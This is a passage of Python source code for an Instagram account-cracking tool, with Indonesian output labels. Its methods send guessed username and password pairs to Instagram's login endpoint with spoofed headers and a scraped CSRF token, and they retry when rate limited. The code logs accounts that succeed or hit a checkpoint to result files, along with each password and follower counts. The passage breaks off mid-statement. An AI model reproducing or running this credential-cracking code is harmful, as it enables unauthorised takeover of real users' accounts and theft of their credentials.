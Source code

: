 				elif 'checkpoint_url' in str(x_jason):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print(f"""\r  
  {K}┣[>] STATUS :  CP
  ┣Nama     : {nama}
  ┣Username : {user}
  ┣Password : {pw}
  ┣Pengikut : {pengikut}
  ┣Mengikuti: {mengikut}
  ┣Postingan: {postingan}{C}
					""")
					open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					checkpoint.append(user)
					break

				elif 'Harap tunggu beberapa menit sebelum mencoba lagi.' in str(x.text):
					sys.stdout.write(f"\r┣[{U}!{C}] {U}Please wait a few minutes second{C}");sys.stdout.flush();sleep(10)
					self.crackAPI(user,pas,uaAPI)
				else:
					continue

			loop+=1
		except:
			self.crackAPI(user,pas,uaAPI)

	def checkAPI(self,user,pw):
		try:
			token=s.get("https://www.instagram.com/",headers={"user-agent":User_Agent()}).content
			crf_token=re.findall(r"\"csrf_token\"\:\"(.*?)\"", str(token))[0]
			s.headers.update({
				'authority': 'www.instagram.com',
				'x-ig-www-claim': 'hmac.AR08hbh0m_VdJjwWvyLFMaNo77YXgvW_0JtSSKgaLgDdUu9h',
				'x-instagram-ajax': '82a581bb9399',
				'content-type': 'application/x-www-form-urlencoded',
				'accept': '*/*',
				'user-agent': user_agent(),
				'x-requested-with': 'XMLHttpRequest',
				'x-csrftoken': crf_token,
				'x-ig-app-id': '936619743392459',
				'origin': 'https://www.instagram.com',
				'sec-fetch-site': 'same-origin',
				'sec-fetch-mode': 'cors',
				'sec-fetch-dest': 'empty',
				'referer': 'https://www.instagram.com/',
				'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8'
			})

			param={
				"username": user,
				"enc_password": "#PWD_INSTAGRAM_BROWSER:0:{}:{}".format(random.randint(1000000000, 99999999999),pw),
				"optIntoOneTap": False,
				"queryParams": {},
				"stopDeletionNonce": "",
				"trustedDeviceRecords": {}
			}
			x=s.post("https://www.instagram.com/accounts/login/ajax/",data=param);sleep(1)
			x_jason=json.loads(x.text)
			if "userId" in x.text:
				nama,pengikut,mengikut,postingan=self.APIinfo(user)
				print(f"""\r   
{H}┣[>]STATUS : OK
┣Nama     : {nama}
┣Username : {user}
